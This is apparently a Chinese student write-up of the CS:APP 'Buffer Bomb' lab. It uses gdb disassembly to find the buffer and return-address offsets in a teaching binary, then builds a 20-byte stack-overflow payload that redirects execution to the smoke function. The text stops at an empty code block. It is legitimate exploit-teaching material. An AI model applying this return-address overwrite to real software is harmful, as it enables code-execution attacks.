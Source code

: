 # The Buffer Bomb

## 准备工作

先对 bufbomb 有个大体认识。`objdump -d bufbomb` 查看 bufbomb 的整个反汇编代码，可以看到指导文件中涉及的几个主要的函数：`08048d60 <bang>`、`08048dc0 <fizz>`、`08048e20 <smoke>`、`08048fe0 <getbuf>`、`08049000 <test>`。缓冲区溢出的整体思路是 bufbomb 中的 getbuf 函数在读入字符数组时没有对 buf进行越界检查，溢出的字符将覆盖栈帧上的数据，当程序调用的返回地址被覆盖时，我们就可以让它跳转到我们想要执行的代码区域，从而达到攻击目的。`disassemble getbuf` 查看 getbuf
```
(gdb) disassemble getbuf
Dump of assembler code for function getbuf:
   0x08048fe0 <+0>:     push   %ebp
   0x08048fe1 <+1>:     mov    %esp,%ebp
   0x08048fe3 <+3>:     sub    $0x18,%esp    # 分配栈空间，24字节
   0x08048fe6 <+6>:     lea    -0xc(%ebp),%eax     # 为字符数组预留了 0xc 即 12 字节的空间，首地址为 -0xc(%ebp)
   0x08048fe9 <+9>:     mov    %eax,(%esp)
   0x08048fec <+12>:    call   0x8048e60 <Gets>
   0x08048ff1 <+17>:    mov    $0x1,%eax
   0x08048ff6 <+22>:    leave
   0x08048ff7 <+23>:    ret
End of assembler dump.

# 设置断点查看字符数组首地址
(gdb) b *0x08048fe9
Breakpoint 1 at 0x8048fe9
(gdb) run -t SA19225374+SA19225417+SA19225525
Starting program: /home/myclass/csapp/bufbomb -t SA19225374+SA19225417+SA19225525
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021

Breakpoint 1, 0x08048fe9 in getbuf ()
(gdb) i r
eax            0xffffb4dc          -19236
ecx            0xc                 12
edx            0xf7fa6890          -134584176
ebx            0x0                 0
esp            0xffffb4d0          0xffffb4d0
ebp            0xffffb4e8          0xffffb4e8
# 可以看出字符数组首地址为 -0xc(%ebp)=0xffffb4dc，即此时 %eax
```
字符数组首地址为 0xffffb4dc，字符数组 12 字节，然后是 4 字节的 %ebp，之后即为我们的目标——程序调用的返回地址，可算出此返回地址位于 0xffffb4ec。

## smoke

这一关要求执行主体函数 test 中的 getbuf 时，返回到 smoke 函数处执行。首先需要找到 smoke 函数地址。
```
(gdb) disassemble smoke
Dump of assembler code for function smoke:
   0x08048e20 <+0>:     push   %ebp    # 0x08048e20 即为 smoke 函数入口地址
(gdb) p/x &smoke        # 另一种查看方式
$1 = 0x8048e20
```
下一步就是用 smoke 函数入口地址覆盖我们之前推知的 getbuf 的返回地址。我们需要构造的字符串大小为 12+4+4=20 字节，且最后四个字节为 smoke 函数地址（注意以小端格式写入），填充（值可任意）如下：
```
01 00 00 00
02 00 00 00
03 00 00 00
04 00 00 00
20 8e 04 08
```
将该字符以空格分隔的 ASCII 码格式写入字符串文件 smoke.txt 中，运行 sendstring 进行转化后验证缓冲区溢出攻击是否有效。
```
```